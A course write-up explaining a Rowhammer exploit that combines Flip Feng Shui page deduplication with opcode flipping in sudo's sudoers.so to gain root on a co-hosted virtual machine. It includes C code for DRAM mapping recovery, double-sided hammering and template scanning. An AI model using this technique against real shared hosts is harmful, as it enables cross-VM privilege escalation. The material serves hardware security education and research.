







# Combining Flip-Feng-Shui and Opcode Flipping

Author: Andrea Di Dio

If you have any further questions or suggestions after reading this writeup feel free to contact me at a.didio@student.vu.nl or on Twitter ([@hammertux](https://twitter.com/hammertux "hammertux")). I will try to answer any questions or adopt any suggestions :)

## Introduction

The aim of this writeup is to explain some of the major challenges I encountered while implementing a Rowhammer attack using Flip Feng Shui [1] and Opcode Flipping [2]. The code for this project was completed during the Hardware Security class at [VUSec](https://www.vusec.net/) and I wanted to summarize the findings and discuss some of the basics of Rowhammer. Note that the exploit was tested on an Intel Haswell (DDR3) system with 1 channel and 1 DIMM. The host was running the Linux Kernel `5.8.0-34-generic` release and on the VM, `sudo` version `1.8.19`.

## DRAM

### DRAM Mapping:

Just as the Memory Management Unit (MMU) translates virtual addresses to physical addresses in order to locate the page frame backing the memory allocation, the _Memory Controller_ (MC) needs to translate these physical addresses into a 6-tuple _(Channel, DIMM, Rank, Bank, Row, Column)_ in order to address a specific memory word. This will be referred to as a **DRAM Address** in the remaining text. Nowadays, most CPUs, use complex XORing functions to retrieve the DRAM address from the physical address. The rows and columns inside a bank, logically form a _matrix_ of **cells**. Each DRAM cell consists of a _capacitor_, which stores a single bit of data by retaining the electrical charge, and an _access transistor_ which connects the capacitor to the _bitline_ and is used to charge or discharge the capacitor. Each bank, also has a "special row" known as the **row buffer** which acts as a sort of cache for the bank (discussed in the next section). The high level overview (excluding the columns, which are irrelevant for our attack) of this organization is shown in the figures below.

<figure align="center">
  
  <figcaption> Fig 1. High Level CPU-DRAM Connection </figcaption>
</figure>


<figure align="center">
  
  <figcaption> Fig 2. Zooming in on the Chip </figcaption>
</figure>


Note that this is a simplified view of the DRAM geometry. In reality, as discussed by Tatar et al. [5], the DIMM circuitry can implement some remapping strategies (e.g., _Rank mirroring_) which can alter the DRAM Addresses to make the circuit layout simpler, as long as the memory access semantics are preserved.

### DRAM Operations:

To read or write data in a DRAM row, the memory controller issues an **ACTIVATE** (or _Row Open_) command, which copies the data of the row into the **row buffer** and the value _from the row buffer_ is then returned to the CPU. Note that this is a _destructive_ operation, i.e., the data in the row is NOT retained.

In order to prepare the bank for another row activation, the memory controller issues a **PRECHARGE** (or _Row Close_) command which "deactivates" the row which is currently open in the bank meaning that the data in the original row is not retained and thus has to be copied back from the row buffer to the specific DRAM row by restoring back the electrical charge into the capacitors. When this command is issued, depends on the policy adopted by the vendor. In the _Open-row policy_, the row is kept "open", i.e., remains _activated_ in order to optimize for locality, expecting a high number of so-called _row buffer hits_. However, _row buffer misses_ become very expensive as the MC needs to issue a precharge command before serving the request. In the _Close-row policy_, the MC issues the precharge command after access, optimizing for little locality to eliminate precharge latency expecting many row buffer misses. In reality, vendors tend to adopt proprietary policies which are supposed to increase the performance, however, these policies are not documented well (or at all).

Due to the fact that the capacitors leak charge over time, the memory controller will also issue a **REFRESH** command periodically (typically every 64ms) during which the data in each row is copied to the row buffer and back into the row in order to avoid data loss due to charge leakage.

### Reverse Engineering the Mapping:

In order to successfully mount a Rowhammer attack effectively, an attacker has to know the underlying memory geometry of the system. Pessl et al. [3] have presented a way to reverse engineer the mapping of memory addresses to DRAM addresses in software by taking advantage of the bank conflict  _timing side channel_. The idea is based on the fact that when we access two rows in the same bank, we get a **bank conflict**, which is caused by a _row buffer miss_. This means that the MC has to issue a PRECHARGE and an ACTIVATE command to access the second row, giving rise to a reliable timing side channel.

To test this, we can allocate a large buffer (e.g., 1GB) from which we randomly pick a _base address_. This base address, will map to a certain DRAM Address which we don't know yet. We then randomly pick many different _probe addresses_ and for each one, we measure the access time (multiple times to avoid noisy data) when accessed together with the base address. This will allow us to define a cutoff value for the access time which can tell us if a pair of addresses are in the same bank or not. This step can be done with some code similar to the one below:

```C
static uint64_t get_median_access_time(volatile uint8_t *a, volatile uint8_t *b) // a = base_addr
{
    uint64_t t_start, t_delta, median_time, time_measurements[ROUNDS]; // ROUNDS = 5000
    uint16_t rounds;

    rounds = ROUNDS - 1;
    sched_yield();
    while(rounds--) {
        t_start = rdtscp();
        *a;
        *b;
        t_delta = rdtscp() - t_start;
        time_measurements[rounds] = t_delta;
        lfence();
        clflush(a);
        clflush(b);
        mfence();
    }

    qsort(time_measurements, ROUNDS, sizeof(uint64_t), _qsort_compare);
    median_time = time_measurements[ROUNDS / 2 - 1];

    return median_time;
}
```

By doing this repeatedly for many probe addresses (e.g., 15k), if we plot the measurements in a histogram, we can see the access times and find a cutoff value. An example of such a plot is shown below (test performed on a Haswell system with 1 Channel & 1 DIMM). This plot shows that some accesses (those circled in red after the dashed line) caused a bank conflict because their median access time was (much) greater than the access time for other addresses. In this example, we could take a cutoff value which lies somewhere in between 293 cycles and 440 cycles, e.g., 350 cycles.

<figure align="center">
  
  <figcaption> Fig 3. Bank Conflicts Histogram </figcaption>
</figure>

Now that we have a cutoff value which helps us identify which addresses cause bank conflicts, we can recover the XORing functions used to map the physical addresses to the same bank. In order to do this, we will use a feature in the Linux OS known as Transparent Huge Page (THP) in order to have a 2MB **physically contiguous** buffer allowing us to have 21 bits of the virtual and physical address to be the same (Not explained here in detail. In brief, this is because a 2MB page does not have a PTE, and is instead mapped at the PMD level of the page tables). According to Pessl et. al. [3] the bits needed to address the bank are within the first 21 bits of the address, meaning that our 2MB page should be enough to reverse engineer the mapping. If that were not the case, we would have to use 1GB Huge Pages (`hugetlbfs`) to "control" 30 bits of the address however, these are not necessarily available on all systems.

Once we have mapped the 2MB buffer and allowed the OS to collapse the pages into a single THP (can be explicitly requested with the `madvise` syscall: `madvise(buf, buf_sz, MADV_HUGEPAGE)`), we can generate a set of addresses which cause the bank conflicts (i.e., those addresses for which the median access time is greater than the cutoff value). The number of XORing functions which we need to find, depends on the underlying memory configuration of the system. In our example, we only have 1 channel and 1 DIMM, meaning that they don't need to be addressed, we have 2 ranks and 8 banks meaning that we need log2(1 x 1 x 2 x 8) = log2(16) = 4 addressing bits in total, of which log2(8) = 3 will be needed to address the bank. We are therefore looking for 4 XORing functions. With this in mind, we can try to bruteforce all the possible functions of 4-bits over the lowest 21 bits of the addresses in order to find functions which applied to both the base address and the probe addresses generate the same output (i.e., are mapped to the same bank). Furthermore, we can ignore the lowest 6 bits of the address as those are used to address the cachelines which are not of interest in our case.

_Note that you will find more than 4 candidates, this is due to the linear independence between the functions._

```C
static uint64_t *calc_functions(uint8_t **conflict_addrs, size_t conflict_addrs_size, uint8_t *base_addr)
{
	uint8_t address_bits;
	uint64_t function, smallest_bit_perm, xor_base, xor_probe;
	uint64_t *func_array;
	size_t array_sz;
	unsigned idx;
	unsigned i;
	uint8_t all_equal;


	array_sz = 50;
	func_array = malloc(sizeof(uint64_t) * array_sz); //if we find more, then realloc
	idx = 0;
    // Intel systems do not seem to use more than 6 bits for addressing (take that as upper bound)
	for(address_bits = 1; address_bits < BITS_TO_PERMUTE; ++address_bits) { // 1 <= n <= 6
		smallest_bit_perm = ((1 << address_bits) - 1) << CACHELINE_BITS;
		function = smallest_bit_perm;
		while(function < (1 << HUGE_PAGE_KNOWN_BITS)) { // get max to bit 20
			all_equal = (uint8_t) conflict_addrs_size / 10; // 90% (allow for false +ve margin)
			for(i = 0; i < conflict_addrs_size; ++i) {
				xor_base = __builtin_parityl(((uintptr_t) base_addr & ((1 << HUGE_PAGE_KNOWN_BITS) - 1)) & function);
				xor_probe = __builtin_parityl(((uintptr_t) conflict_addrs[i] & ((1 << HUGE_PAGE_KNOWN_BITS) - 1)) & function);
				if(xor_base != xor_probe) {
					--all_equal;
					if(!all_equal) {
						break;
					}
				}
			}
			if(all_equal) {
				if(idx == array_sz) {
					array_sz *= 2;
					func_array = realloc(func_array, array_sz * sizeof(uint64_t));
				}
				func_array[idx++] = function;
			}
			function = next_bit_perm(function);
		}
	}

	func_array[idx] = 0;
	return func_array;
}
```

On our Haswell-DDR3 system, we recovered the following functions with the code above:
```C
static uint64_t hwsec05_function_masks[NUM_FUNC_MASKS] = {
	0x22000,
	0x44000,
	0x110000,
	0x88000,
};
```
This means that the "important" bits which are used for addressing the bank are bits 13 and 17 (0x22000), bits 14 and 18 (0x44000), bits 16 and 20 (0x110000) and bits 15 and 19 (0x88000). _Note that we are using bank conflicts as a side channel, meaning that we cannot distinguish between ranks, channels and banks._

In order to successfully mount a double-sided rowhammer attack (more on that in the next few sections) we also need to find the bitmask which is used to address the rows in a bank.

__Observation 1__: Previous work [3, 6] has shown that usually, the bits which are used to address the rows are higher order bits (bit numbers >= 16, limited to the number of "controlled" bits in the address) and are linearly mapped (i.e., consecutive) to the physical address (See visualization below). In order to recover this information, we can use two methods.

#### Visualization of Row indexing mask:

```
    >> 1st Row fn candidate = 0x100000
                            = 0b100000000000000000000

    >> 2nd Row fn candidate = 0x180000
                            = 0b110000000000000000000

    >> 3nd Row fn candidate = 0x1c0000
                            = 0b111000000000000000000

    >> 4th Row fn candidate = 0x1e0000
                            = 0b111100000000000000000

                                                        ... and so on
```


#### Method 1:

The more elegant (?) way to recover this bitmask is to, once again, use a timing side channel. As we know, memory accesses which are served via the row buffer are faster than those accesses for which the row has not yet been activated. We can therefore, try to flip single address bits (<= 21) and check if the access is faster.

#### Method 2:

Besides the timing side channel, we can use Rowhammer itself as a side channel to recover the actual row bitmask. Previous work on Rowhammer, has shown that double-sided hammering produces a larger amount of bitflips on the victim row. Double sided hammering however, can only be possible if the two aggressor rows are directly adjacent to the victim row (i.e., if the row mask is correctly identified). Therefore, we can use _Observation 1_ to bruteforce the row index mask, by using all possible candidates (see visualization above) as our row function and checking how many bit flips we get when hammering. We accept as our row function, the one which gives us the highest amount of bit flips by randomly hammering a certain number of pairs:

```C
static uint64_t row_index_sc(uint8_t *buf)	
{	
	unsigned i;	
	uint64_t flips_found, max, row_fn;	
	uint64_t row_mask_candidates[4] = 	
	{		
		0x100000,	
		0x180000,	
		0x1c0000,	
		0x1e0000,	
	};	
	
	flips_found = 0;	
	max = 0;	
	row_fn = 0;	
	for(i = 0; i < 4; ++i) {	
		row_mask = row_mask_candidates[i];	
		flips_found = hammer_rand_pairs(buf, 500);	
		if(flips_found > max) {	
			max = flips_found;	
			row_fn = row_mask;	
		}	
	}	
	
	return row_fn;	
}
```
For our memory configuration we found that the correct rowmask was `0x1e0000`.

Now that we have the correct functions for the physical address -> DRAM Address mapping, we can start having fun :)

## The Rowhammer Bug (The Very Basics)

In 2014 Kim et al. [7] have shown that by intentionally activating a row repeatedly in a short period of time (i.e., within the refresh interval), the capacitors were leaking charge to the cells in the adjacent (_victim_) rows. If this leakage happens before the MC issues the refresh command for these rows and passes a certain threshold of electrical charge, the bits in these rows will flip (1 -> 0 & 0 -> 1, both directions are possible). In the past few years, we have seen a plethora of different attacks taking advantage of this reliability bug in DRAM which can be used to corrupt system memory, crash a system or even take over the whole system.

The most common way to perform hammering is by using so-called **double-sided hammering** where an attacker picks the two rows _directly adjacent_ to the **victim row** as **aggressor rows** as shown in the GIF below.

<figure align="center">
  
  <figcaption> Fig 4. Double-Sided Hammering </figcaption>
</figure>

A common hammering routine could be one as the one shown below:

```C
void hammer(volatile uint8_t *a, volatile uint8_t *b, uint64_t activations)
{
    while(--activations) {
        *a;
        *b;
        clflush(a);
        clflush(b);
    }
}
```

It is of the utmost importance for the attack to work that the request for the memory access is not served from the caches of the system. In our example we use the x86 `clflush` instruction to achieve this, however, there are other methods which work on ARM as well.

In order to maximize the probability of finding bit flips in victim rows, the aggressor rows can be filled with different patterns. For example, in our attack, we have opted for a _striping pattern_ where the value in the cells of the aggressor rows hold the value opposite of that contained in the cells of the victim row. I.e., if the victim rows is filled with bytes containing the `0x00` value, in order to find 0 -> 1 flips, we fill the aggressor rows with byte value `0xFF`. Another option would be to fill the aggressor rows with random bytes minimizing the probability of having the same bytes in the victim row.  


## Flip Feng Shui

In 2016, Razavi et al. [1] presented _Flip Feng Shui_ (FFS) as a new exploitation vector that allows an attacker to flip bits in a memory page of a victim VM which shares the host with the attacker VM. It achieves this by leveraging the memory deduplication subsystem on the host to merge a specific memory page belonging to the victim with an identical page in the attacker's control. Due to the fact that Rowhammer modifies the data at the physical level directly on DRAM, the Copy-on-Write (COW) event is not triggered leaving the victim with a page containing the modified data. The authors showcase this new exploitation vector by compromising OpenSSH and `apt-get`. For our project, we use FFS combined with Opcode Flipping (presented by Gruss et al.) [2] to corrupt the state of the `sudo` program in order to get root privileges on a victim VM.

I will now (briefly discuss the various components which are needed in order to successfully perform the exploit.

### Kernel Same-Page Merging (KSM):

In the linux kernel, memory deduplication is implemented by means of a kernel thread (daemon) known as `ksmd` which periodically scans the system memory to find pages (pages which are mapped as **private anonymous**) holding the same data and marks them as "candidates" for merging. The management of these pages is achieved by means of two _red-black trees_ coined as the _stable_ and _unstable_ trees. The former holds references to the pages which have been merged, while the latter hold references to the "candidate" pages. While the daemon scans the pages, it perform three checks:

1. It checks if the stable tree already holds a page with the same content and if so, it updates the page table entry for that page to point it to the page in the stable tree, it marks the page as _read-only_ and it releases the "old" physical page. 
2. If there is no entry in the stable tree, it looks up in the unstable tree to find a "candidate" page with the same contents. The original authors of the paper [1] show that if an entry in the unstable tree is found with the same contents of a page being scanned, the page in the unstable tree gets promoted to the stable tree and the page table entry of the page being scanned is modified to point to the page which is now in the stable tree. I.e., the second page (the one mapped later on in time) is merged with the first. While working on our exploit however, we observed the opposite behavior, where the page being scanned is promoted to the stable tree and the page in the unstable tree is released and its underlying page table entry is set to point to the page now in the stable tree. I.e., the first page is merged with the second page.
3. If the deamon doesn't find a matching page in either of the two trees, it adds the page to the unstable tree if it considers it to be a "candidate" page.

At the end of a complete scan, the unstable tree is flushed. [8]

The end result of a ksmd scan for the two VMs sharing an identical page can be visualised below:

<figure align="center">
  
  <figcaption> Fig 5. KSM Merging </figcaption>
</figure>

Furthermore, at the time of the original FFS paper (2016), The merged pages were set as read-only in order to allow for COW semantics. Copy-on-Write, as the name suggests, means that whenever a write is made to a deduplicated page, the OS maps the page into the writing process' address space and copies over the contents, in order to avoid a process overwriting the memory page of another process. When working on our attack, we noticed that the pages merged by KSM were no longer COW pages instead, the OS would copy over the page on any access, for brevity I will call this Copy-on-Access (COA). This means that when we launch the attack, we only have "one shot" as we cannot check the contents of the target page. In the later sections I will describe how we overcome this issue.

### Transparent Huge Pages:

Since we are hammering from a VM, we cannot correctly select the aggressor rows because we can't convert virtual addresses to physical addresses. The guest physical addresses (in the case of KVM) are simply offsets into the QEMU process' virtual address space (running on the host). Much like in the case of KSM, the Linux kernel has a background thread (daemon) `khugepaged`, which collapses large contiguous chunks of memory (allocated in 4KB pages) into a single 2MB huge page. Similarly, `khugepaged` is also responsible for splitting the huge page into many "normal" pages (of 4KB) in the case, for example, where a program free's a chunk of memory from the 2MB buffer.

If we allocate a large buffer aligned to the 2MB boundary, after some time, `khugepaged` in the guest will convert it to a 2MB huge page, and in turn, as this will result in a large contiguous memory allocation in QEMU's virtual address space, `khugepaged` in the host will do the same. This means that thanks to the THP feature in the Linux kernel, we manage to get 2MB of physically contiguous memory which spans over multiple DRAM rows and we can easily pick two aggressor rows.

One important interplay between KSM and THPs is that the Linux kernel optimizes for memory entries instead of TLB entries, meaning that KSM breaks down huge pages into 4KB pages if there are identical pages that can be found by `ksmd` [1]. Consequently, we can no longer use a "perfect" striping pattern as described in the sections above as KSM would merge the pages of our aggressor rows. The solution to this issue is to add some entropy to the start of every page in our buffer. I.e., Add some bytes of random integers at the start of every page in order to minimize the probability of this happening. A visualization of this (simplified to show only the merging of the row pages) can be seen below:

<figure align="center">
  
  <figcaption> Fig 6. Adding Entropy </figcaption>
</figure>


## Opcode Flipping

Gruss et al. [2] have introduced _Opcode Flipping_ as a new attack primitive in 2018. The main observation from the paper is that because the x86 instruction set is very "dense", in most cases, bit flips (in both directions) in opcodes yield other valid opcodes. The authors show that with a single targeted bit flip in an instruction, it is possible to alter a `setuid` binary such as `sudo` to allow an unprivileged process to gain root privileges. Their research found 29 possible exploitable bit flip offsets in the `sudoers.so` library which is used by the `sudo` binary. I.e., they found 29 possible offsets in the `sudoers.so` library where an attacker can flip a particular bit and generate a valid instruction which inverts the password check for the sudo binary (where the check deems as valid a wrong password). For the full list please refer to the paper.

## Putting It All Together

The end goal of this small project is to combine the _Flip Feng Shui_ attach vector with the _Opcode Flipping_ attack primitive to gain root access on a victim VM from the attacker VM. The main steps to the attack are the following:

1. Allocate the 2MB buffer(s)
2. Add entropy at the start of every page (we use 8 Bytes) and fill the rest of the buffer with a "hammering pattern (be it random pattern or striping pattern as discussed earlier).
3. Scan the memory backing the buffer for exploitable bit flips (so-called _templates_).
4. Load the code page from `sudoers.so` three times in the buffer, with the second copy being in the target vulnerable page.
5. Wait for KSM to merge the pages and check that it has actually merged them (methods to do this will be discussed later).
6. Fill the aggressor rows with the same striping pattern row **except** for the byte at the offset of the bit we want to flip to minimize the chance of flipping other bits in the code (more on this later).
7. Hammer the aggressor rows.
8. If everything has gone well, `sudo` will now accept wrong passwords for authentication.

I will now elaborate on some of the steps above which might be somewhat tricky to understand.

### Allocating The Buffers

Given that a 2MB spans over a limited amount of rows on various banks (this depends on the underlying DRAM configuration of the system), you are not guaranteed to find an exploitable bit flip with a single buffer. It might therefore be a good idea to map a buffer, check if you have found interesting bit flips and if not, map another buffer. It's important however, that the previous buffers are not free'd to avoid memory reuse strategies from the allocators which might hand you over the same physical memory chunk on the next allocations.
For example:
```C
for(j = 1; j <= 20; j++){
	addr_2mb_align = (void *) (j * 0x200000);    	
	buff = map_contiguous_buffer(addr_2mb_align);
	pr_info("[+] Buffer %d\n", j);
	fill_buffer(buff, 0, SAME_FILL);
	add_entropy(buff);
	if(flip_sudoers(buff) == 0) {
		pr_info("You now have root privileges :)\n\n\n");
		return 0;
	}
}
```

### Scanning For Templates

In order for the attack to work properly, we must find a bit flip in a page with an offset which matches the vulnerable offsets in the `sudoers.so`. Razavi et al [1] define a **template** as a combination of a vulnerable page and the offset. In the templating phase, we are triggering bit flips wherever we can and checking if one of the bit flips occurs at the correct offset (i.e., matching with the one in `sudoers.so`), at the correct bit offset in the byte and in the _right direction_ (1 -> 0 or 0 -> 1).

When doing this, we hammer all the possible combinations of _\<aggressor-victim-aggressor\>_ rows which we can over all the banks that we can address with our huge page.

An example of looking for 0 -> 1 bit flips is shown below:

```C
static template_t * hammer_bank(uint8_t *buf, uint16_t bank_n)
{
	dram_addr_t dram_addr;
	uint8_t *p_addr, *v_addr, *agg1, *agg2, *vic;
	uint8_t **addrs;
	unsigned i, j, k;
	template_t *template;

	template = NULL;

	addrs = malloc(sizeof(uint8_t *) * CONTROLLED_ROWS);
	assert(addrs);

    uint64_t dram_no = 0;
	
	//save all the banks we can address
    for(i = 0; i < NUM_FUNC_MASKS; ++i) {
        uint64_t bit = (bank_n & (1 << i)) > 0 ? 1 : 0;
        dram_addr.ch_to_bank[i] = bit;
        dram_no |= bit << i;
    }

    pr_info("DRAM bank no = %s\n", bit_string(dram_no));

    for(i = 0; i < NUM_FUNC_MASKS; i++){
        pr_info("BIT %d: %ld\n", i, dram_addr.ch_to_bank[i]);
    }
	
	// save all the addresses which map to consecutive rows in an array
	for(i = 0; i < CONTROLLED_ROWS; ++i) {
		dram_addr.row = i;
		p_addr = (uint8_t *) dram_to_physical(dram_addr);
		v_addr = (uint8_t *) ((uintptr_t) p_addr | (uintptr_t) buf);
		pr_info("Row %lu -> %p\n", dram_addr.row, v_addr);
		addrs[i] = v_addr;
	}

	//hammer all the A-V-A combinations in our array.
	for(i = 0; i < CONTROLLED_ROWS - 4; ++i) {
		agg1 = addrs[i];
		agg2 = addrs[i + 2];
		vic = addrs[i + 1];
		// striping pattern
		memset(agg1 + ENTROPY_PADDING_SIZE, 0xFF, ROW_SIZE - ENTROPY_PADDING_SIZE);
		memset(agg2 + ENTROPY_PADDING_SIZE, 0xFF, ROW_SIZE - ENTROPY_PADDING_SIZE);
		memset(vic + ENTROPY_PADDING_SIZE, 0x00, ROW_SIZE - ENTROPY_PADDING_SIZE);
		pr_info("Hammering agg1 %p ---- vic %p ---- agg2 %p\n", agg1, vic, agg2);
		
		//hammer the aggressor rows
		for(unsigned k = 0; k < hammer_conf->hammering_rounds; k++){
			hammer(addrs[i], addrs[i + 2], hammer_conf->num_row_activations);
		}

		/* Check for templates */
		for(j = ENTROPY_PADDING_SIZE; j < ROW_SIZE; ++j) {
			if(vic[j] != 0x00) {
				pr_info("victim flipped addr = %p, was 0x00 is now 0x%x\n", vic + j, vic[j]);
				for (k = 0; k < NUM_EXPLOITABLE_OPCODES; k++){
					if (((uintptr_t) (vic + j) - opcodes[k].file_offset) % PAGE_SIZE == 0 && (0x00 ^ (1 << opcodes[k].bit_offset)) == vic[j] && opcodes[k].direction == ZERO_TO_ONE) {
						pr_info("Template Found!!!! OPCODE NO: %d\n", k);
						template = malloc(sizeof(template_t));
						assert(template != NULL);
						template->addr = (uintptr_t) (vic + j);
						template->op = opcodes[k];
						goto out;
					}
				}
			}
		}
	}
out:
	return template;
}
```


### Check if KSM has merged the pages

Normally, checking for a KSM merge is fairly easy because the Copy-on-Write event gives rise to a quite reliable timing side-channel. However, in our case, we must also keep the pages merged, therefore we cannot make use of this side channel directly on the two pages with the target content. We therefore have three main options:

1. **The lucky but unlikely scenario**: If you have superuser rights on the host, via `/proc/pagemap` you can look up the addresses of the two pages, if the underlying pagemap entry is identical (which also means that they have the same PFN), you know that KSM has merged the two pages. Note that this is also not that easy, because we are running in a VM and we first have to find the host virtual address of the pages in the QEMU process on the host.
2. **The Flip Feng Shui method**: KSM scans a certain amount of pages whenever the `ksmd` daemon is woken up. This varies system by system (the config files are in the `sysfs` -- `/sys/kernel/mm/ksm/*`). However, on a default Ubuntu configuration, KSM scans 100 pages every 200ms, therefore we have to wait at most the sum of memory allocated to each co-hosted VM.[1]
3. **The "Let's still use the timing side-channel" method**: As we discussed earlier, we observed that the page that ends up in the stable tree is the second one (in chronological allocation). We can therefore allocate a third page and fill it with the same content. Much like we did for the bank conflict, we can measure how long it usually takes to write to a page and use that as a cutoff value given that the COW event takes longer to write to a page than it normally does. Note that we cannot keep writing to this third page because if we do it too often, it will be deemed as "unshareable" by KSM.

### Populating the Aggressor Rows

Given that we **only** want to flip one specific bit at the correct template, we have to avoid flipping other bits in the victim row which could change other opcodes in the code page giving rise to segfaults, illegal instructions or unwanted behavior. Furthermore, as we've observed this Copy-on-Access behavior of KSM, we cannot access the target page to check which bits were flipped as that would unmerge the pages. In the same spirit of the striping pattern, we can "_mask_" out all the other flips that we found in the victim rows. I.e., at the same position where we found a 0 -> 1 flip in the victim row, we place a `0x00` byte in the aggressor row, and the opposite for 1 -> 0 flips. At the offset where the target opcode is stored, we store the negation of the opcode in the aggressor row (at the same offset). This could give rise to a layout as the one below:

<figure align="center">
  
  <figcaption> Fig 7. Masking the Victim Row </figcaption>
</figure>


## Concluding Thoughts

We have covered a few of the "essentials" of Rowhammer and then I tried to explain some of the ways that problems when mounting these attacks can be approached. The full (admittedly quite messy :P) code for this can be found in this [github repo](https://github.com/hammertux/rowhammer_ffs_op).

## Future Work

- The big drawback of this attack and this writeup is that this exploit was mounted on a DDR3 system. Nowadays DDR4 is more and more prevalent. Frigo et al. [4] have discussed how they have managed to bypass the Target Row Refresh (_TRR_) defense mechanism and mount Rowhammer attacks by using so-called _many sided hammering_ patterns.
- Other binaries could have been analyzed and selected as potential candidates for this kind of attack. [Mehdi Talbi](https://github.com/mtalbi) [9] has shown how to mount this kind of attack on `libpam.so`.

## Credits

The code and some of the images contained in this report have been done as joint work with [Shivam Kapoor](http://shivamkapoor.me/). I would like to thank [VUSec](https://www.vusec.net/) for organizing the Hardware Security course during these challenging times which has allowed us to work on this project. I would also like to thank [Pietro Frigo](https://twitter.com/pit_frg) for his supervision on this project.

## References
1. [Flip-Feng-Shui](https://www.vusec.net/projects/flip-feng-shui/)
2. [Another Flip in the Wall of Rowhammer Defenses](https://arxiv.org/pdf/1710.00551.pdf)
3. [DRAMA](https://www.usenix.org/system/files/conference/usenixsecurity16/sec16_paper_pessl.pdf)
4. [TRRespass](https://download.vusec.net/papers/trrespass_sp20.pdf)
5. [Hammertime](https://download.vusec.net/papers/hammertime_raid18.pdf)
6. [Seaborn - How physical addresses map to rows and banks in DRAM](http://lackingrhoticity.blogspot.com/2015/05/how-physical-addresses-map-to-rows-and-banks.html)
7. [Flipping Bits in Memory Without Accessing Them](https://users.ece.cmu.edu/~yoonguk/papers/kim-isca14.pdf)
8. [KSM Kernel Source Code](https://elixir.bootlin.com/linux/latest/source/mm/ksm.c)
